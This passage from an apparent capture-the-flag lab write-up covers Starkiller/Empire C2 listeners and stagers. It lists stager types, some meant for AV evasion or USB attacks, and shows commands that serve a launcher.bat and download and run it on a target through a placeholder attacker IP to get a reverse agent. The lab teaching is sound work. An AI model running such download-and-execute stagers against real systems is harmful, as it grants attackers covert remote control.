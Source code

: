 Starkiller uses a listener and a stager to create an agent the listener does exactly as it sounds like it, it listens on a given port for a connection back from your agent. The stager is similar to a payload or reverse-shell that you would send to the target to get an agent back. There is a large number of stagers available we will only cover a handful of the stagers and their uses then use two to demonstrate their uses. Below is an outline of a handful from the possible list of stagers to choose from.

Empire has multiple parts to each stage to help identify each one. First is the platform this can include multi, OSx, and Windows. Second the stager type itself / launcher.

Below are 3 stagers that are general purpose and can be used as your basic stagers. multi/launcher is the most all-purpose stager and can be used for a variety of scenarios, this is the stager we will use for demo purposes in this room.

- multi/launcher - A fairly universal stager that can be used for a variety of devices.
- windows/launcher_bat - Windows Batch file
- multi/bash - Basic Bash Stager

You can also use stagers for more specific applications similar to the listeners. These can be anything from macro code to ducky code for USB attacks.

- windows/ducky - Ducky script for the USB Rubber Ducky for physical USB attacks.
- windows/hta - HTA server an HTML application protocol that can be used to evade AV.
- osx/applescript - Stager in AppleScript: Apple's own programming language.
- osx/teensy - Similar to the rubber ducky is a small form factor micro-controller for physical attacks.

# You need to create a payload in stager and then connect it to host machine to download though python server and then download and run the `launcher.bat` file  in host machine to get reverce access to it.
Transferring & Executing the Stager

Attacking Machine:

There are many ways that you can send the stager to the target machine, including SCP, phishing, and malware droppers; for this example, we will use a basic python3 server and wget to transfer the stager.

1. `python3 -m http.server`

Target Machine:

1. `wget TUN0_IP:8000/launcher.bat -outfile launcher.bat`

2.) `./launcher.bat`


## Task:7

# Agents Overview

Agents are used within Starkiller similar to how you would interact with a normal shell or terminal. You can run shell commands as well as modules that come pre-packaged with Empire. Different to a normal shell, with any C2 server once you have an agent connected back to the C2 server you can use any modules and not trip AV or other detections because they are run remotely. All agents have the same functionality and modules available the stager and listener only determine how the agent is sent to the device and how it connects back.
